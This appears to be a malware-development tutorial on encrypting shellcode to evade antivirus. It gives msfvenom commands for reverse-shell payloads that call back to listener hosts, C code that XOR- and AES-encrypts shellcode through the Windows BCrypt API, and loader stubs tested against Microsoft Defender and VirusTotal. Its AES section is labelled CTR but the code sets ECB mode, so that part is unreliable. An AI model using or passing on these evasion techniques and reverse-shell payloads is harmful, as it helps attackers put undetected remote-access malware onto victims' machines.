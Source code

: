 > Today we are going to learn what is encryption and why do we need it. And we'll also test how undetectable is our program. You don't have to become cryptographer to learn malware development, so take a chill pill and enjoy..
# Prerequisites
Do yourself a favor and learn the following topics before staring
1. **Encryption:** Symmetric vs. Asymmetric
2. **Basic Terms:** Cipher, Ciphertext, Key
3. **Modes of AES**: CTR, CBC, CFB, OFB, GCM etc

*Entropy* - Entropy refers to the randomness or unpredictability of a program. High entropy makes it harder for antivirus (AV) software to analyze or flag your binary.
Ways to increase entropy:
- Encrypting or packing payloads
- Inserting junk instructions
- Control flow obfuscation

*XOR* - A basic encryption method that performs a binary XOR operation on each byte. It’s fast and simple but weak — easy to reverse and often detected by AVs.

| A   | B   | output |
| --- | --- | ------ |
| 0   | 0   | 0      |
| 0   | 1   | 1      |
| 1   | 0   | 1      |
| 1   | 1   | 0      |

*Heuristic detection* - A malware detection technique where the AV watches the program’s behavior and patterns instead of relying on fixed signatures.
# Payload Encryption
Encrypting your payload boosts entropy and reduces static signature detection. But beware: **encryption alone doesn’t guarantee evasion**, especially if the rest of the binary has red flags.

### XOR
XOR is simple and fast, but unreliable for real evasion — **easily reversible** and frequently flagged by AV.

1. Now it's self explanatory what the code is doing, it's getting the all the bytes from the variable shellcode and XORing it with the key.
2. Mind that the `BYTE` is an windows datatype, so have to import `windows.h`.
```c
#include <stdio.h>
#include <windows.h>

// this is an linux reverse shell
// msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f c

void main() {
	unsigned char shellcode[] = 
	"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
	// Make your own shellcode
	"\xff\xd5";

	BYTE key = 0x80;
	unsigned char EncryptedShellcode[sizeof(shellcode)];

	for(int i=0; i<sizeof(shellcode); i++)
	{
		EncryptedShellcode[i] = shellcode[i] ^ (key + i);				
	}
	
	for(int i=0; i<sizeof(EncryptedShellcode); i++)
	{
		printf("0x%02X, ",EncryptedShellcode[i]);
	}
	
}
```

3. Now copy the output of the above code and just place it in the `buf` variable and try running it. We are testing this against windows defender.
```c
#include <stdio.h>
void main(){

// payload is XORed

  unsigned char buf[] = {0x7C, 0x69, 0x00, 0x83, 0x84, 0x85, 0xE6, 0x0E, 0x6D, 0xB8,
  // XORed shellcode here
  0xD1, 0xD5, 0xC0, 0x92, 0x3D, 0x16, 0xC4};

  printf("[+] Suckcess ");
  getchar();

}
```

### AES-CTR
AES-CTR means AES encryption in CTR (counter) mode. It's much better than XOR.
![your internet sucks image not loaded](/images/PayloadEncryption-1.png)
- **Nonce (IV)** - A pseudo-random initialization vector
- **Key** - Your symmetric encryption key
- **counter**  - Increments per block (0, 1, 2...)

AES encrypts `IV || counter` with the key to generate a **keystream**, which is then **XORed with the plaintext** to produce the ciphertext.

We will use [Windows API](https://learn.microsoft.com/en-us/windows/win32/seccng/typical-cng-programming?source=recommendations) to make our cipher. we will use Bcrypt to import the necessary functions to encrypt our payload.
1. Generate shellcode with the following command
   `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.10 LPORT=60123 -f c`
2. As always help yourself with the docs to understand the meaning of functions.

```c
#include <stdio.h>
#include <windows.h>
#include <bcrypt.h>

int main() {
    BCRYPT_ALG_HANDLE algoHandler = NULL;
    BCRYPT_KEY_HANDLE keyHandler = NULL;
    UCHAR keyObject[654] = {0};
    UCHAR key[128] = {0};
    UCHAR Encrypted[514] = {0};
    DWORD cbEncrypted = 0;

    UCHAR data[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
        "\xff\xd5"; // Your shellcode

    // Generate random key
    BCryptGenRandom(NULL, key, sizeof(key), BCRYPT_USE_SYSTEM_PREFERRED_RNG);

    // Initialize algorithm
    BCryptOpenAlgorithmProvider(&algoHandler, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(algoHandler, BCRYPT_CHAINING_MODE, (PUCHAR)BCRYPT_CHAIN_MODE_ECB,
                      sizeof(BCRYPT_CHAIN_MODE_ECB), 0);

    // Generate key handle
    BCryptGenerateSymmetricKey(algoHandler, &keyHandler, keyObject,
                               sizeof(keyObject), key, sizeof(key), 0);

    // Encrypt
    BCryptEncrypt(keyHandler, data, sizeof(data), NULL, NULL, 0,
                  Encrypted, sizeof(Encrypted), &cbEncrypted, BCRYPT_BLOCK_PADDING);

    // Print encrypted shellcode
    printf("[+] Encrypted data:\n");
    for (DWORD i = 0; i < cbEncrypted; i++) {
        printf("0x%02X, ", Encrypted[i]);
    }

    // Cleanup
    BCryptDestroyKey(keyHandler);
    BCryptCloseAlgorithmProvider(algoHandler, 0);
}
```
3. **Bonus tip** - Always look out for the size of the `KEY` and `KEY_OBJECT`  as they vary for every algo and if you don't follow them, there won't be any errors and you'll waste hours of your time. just like I did😑. You can use something like this to verify it
```c
// Verify key object size
    DWORD cbKeyObject = 0;
    status = BCryptGetProperty(algoHandler, BCRYPT_OBJECT_LENGTH, (PUCHAR)&cbKeyObject, sizeof(DWORD), &cbData, 0);
    if (!BCRYPT_SUCCESS(status)) {
        printf("BCryptGetProperty (object length) failed: 0x%08X\n", status);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
    if (sizeof(keyObject) < cbKeyObject) {
        printf("Key object buffer too small: need %lu bytes\n", cbKeyObject);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
```
4. So now we test this against the `Microsoft Defender`
```c
#include <stdio.h>

void main(){
    unsigned char buf[] = {0x54, 0xAF, 0x96, 0x81, 0x0C, 0x32, 0xA1, 0x37, 0xB9, 0x81,
    // Make your own shellcode
    0xAB, 0xA7 };

    printf("[+] Suckcess");
    getchar();
}
```
![your internet sucks image not loaded](/images/PayloadEncryption-2.png)
# Why this doesn't work ??
## AES-CTR / XOR doesn't work against Virustotal ??
![your internet sucks image not loaded](/images/PayloadEncryption-3.png)
Still this is a pretty good detection rate but we need to understand why even those 3 AV flags our malware. It's because - 
- **Huge arrays of bytes** sitting idle is suspicious.
- AVs pre-index common shellcode **and their XOR/AES variants**.
- **High entropy** from encrypted blobs makes binaries stand out.

## Can We Beat VirusTotal?
Yes we can, but I think we should worry more about writing malware first 😂. will cover this after some time.